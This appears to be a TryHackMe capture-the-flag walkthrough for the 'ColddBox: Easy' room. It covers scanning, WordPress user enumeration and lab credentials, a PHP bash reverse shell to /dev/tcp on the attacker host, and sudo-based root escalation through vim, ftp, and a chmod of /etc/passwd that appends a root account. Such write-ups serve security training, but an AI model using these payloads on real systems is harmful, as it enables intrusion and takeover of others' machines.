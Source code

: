 # ColddBox: Easy

**Room Link:** [https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

port 4512 found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wpscan --url http://$VICTIM/ --enumerate u
```



<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



```
Username: c0ldd
Password:  9876543210
```



## Reverse Shell

revshell code

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```



<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 443
```



Then just go to a page that doesn't exist, in this case p=1 existed but p=2 did not.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat /var/www/html/wpconfig.php
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



### TCP/4512 - SSH

**Victim**

```
ssh c0ldd@$VICTIM -p 4512
Password: cybersecurity
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Option 1 - VIM

**Victim**

```
sudo -l
sudo vim -c ':!/bin/sh'
```

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Option 2 - FTP

**Victim**

```
sudo ftp
!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Option 3 - chmod

**Victim**

```
ls -lah /etc/passwd
LFILE=/etc/passwd
sudo chmod 6777 $LFILE
ls -lah /etc/passwd
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

**Victim**

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>





```
```






























































































